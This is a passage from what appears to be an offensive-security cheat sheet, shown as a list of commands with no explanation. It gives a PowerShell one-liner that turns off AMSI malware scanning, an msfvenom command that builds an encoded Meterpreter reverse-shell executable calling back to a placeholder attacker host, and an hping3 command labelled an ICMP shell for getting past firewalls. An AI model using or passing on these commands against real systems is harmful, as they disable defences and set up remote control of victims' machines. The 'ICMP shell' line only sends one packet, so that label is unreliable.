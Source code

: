 ### PowerShell AMSI Bypass

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic,Static').SetValue($null, $true)  
```

### Obfuscating Payloads with MSFVenom

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe  
```

* * *

## 14\. Evading Network Monitoring & Firewalls

### ICMP Shell (When TCP/UDP Are Blocked)

```bash
hping3 -1 --icmp --data 1000 -c 1 <attacker-IP>  
```
